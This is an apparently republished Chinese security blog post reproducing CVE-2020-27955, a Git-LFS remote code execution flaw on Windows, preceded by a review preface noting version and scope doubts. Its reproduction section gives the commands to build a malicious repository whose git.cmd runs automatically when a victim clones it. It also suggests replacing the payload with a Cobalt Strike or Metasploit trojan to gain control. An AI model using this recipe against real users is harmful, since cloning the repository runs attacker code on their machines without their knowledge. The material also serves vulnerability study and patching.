










## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：ClaimsGit&lt;=2.29.2/LFS&lt;=2.12; Windows search path and LFS clone action; exact patch precision absent

代码与实验材料：Malicious repo setup and clone workflow; git push --force is publishing action; separate Linux preparation/Windows victim implicit

来源证据范围：Original researcher ExploitBox advisory/repo and secondary writeup, official GitWindows release

- **事实待核（1）**：Git versus bundled LFS applicability conflated;2.12 missing patch digits; no-interaction means after user clone, not zero-click。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：Example pushes to third-party repository; should use disposable local lab and show required filters/setup。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# CVE-2020-27955 Git-LFS 远程代码执行漏洞复现

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/By9U9OfBHkzWPjF2DFmflg)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

**0x01 漏洞简介**

Git LFS 是 Github 开发的一个 Git 扩展，用于实现 Git 对大文件的支持。Windows 平台上的 Git-LFS 版本 <= 2.12 上发现远程代码执行问题，一旦受害者克隆了恶意存储库并在其系统上运行了易受攻击的 Git-LFS 版本，就会立即执行有效载荷，漏洞编号为 CVE-2020-27955。

**0x02 影响版本**

Git<=2.29.2、Git-LFS<=2.12，一些受影响的产品包括 Git，GitHub CLI，GitHub Desktop，Visual Studio，GitKraden，SmartGit，Sourcetree 等

**0x03 漏洞复现**

下载并安装≤2.12 版本 Git-LFS，可通过以下链接安装 Windows 版 Git v2.29.2，Git-LFS 版本就是 2.12。

*   https://github.com/git-for-windows/git/releases/tag/v2.29.2.windows.1
    

```
git --version
git-lfs --version
```



我们先创建一个名为 POC 的恶意存储库，然后再依次执行以下命令即可，恶意文件名必须命名为 git.bat/git.cmd/git.vbs/git.exe。

**安装 Git-LFS：**

```
sudo apt-get install git-lfs
```

```
git clone https://github.com/3had0w/POC.git
echo calc.exe > git.cmd
git lfs track "*.dat"
echo "Junk" > large.dat
git add -A
git commit -m "POC"
git push -u origin master -f
```

  





其他更多 Windows 可执行文件可在环境变量 PATHEXT 中查看。



完成以上操作后我们的恶意存储库就创建好了，当有人使用 git clone 克隆该项目时，git.cmd 恶意文件就会被下载到本地，并由 Git-LFS 扩展自动执行，无需交互，执行流程如下图。





如果需要上线至 CS/MSF 时可以将恶意存储库中的 git.cmd 恶意文件替换为 CS/MSF 的二进制木马文件即可，不过还是得命名为 git.exe，接着我们重新执行一下 git clone 就能够正常上线了。  



**0x04 漏洞修复**

更新并保持 Git 版本高于 2.29.2 和 Git-LFS 扩展高于 2.12  

**0x05 参考链接**

https://github.com/ExploitBox/git-lfs-RCE-exploit-CVE-2020-27955  

https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html

https://infosecwriteups.com/git-lfs-exploit-for-remote-code-execution-cve-2020-27955-e8f4786163c3

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

* * *

**推 荐 阅 读**

  

  

  

[](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
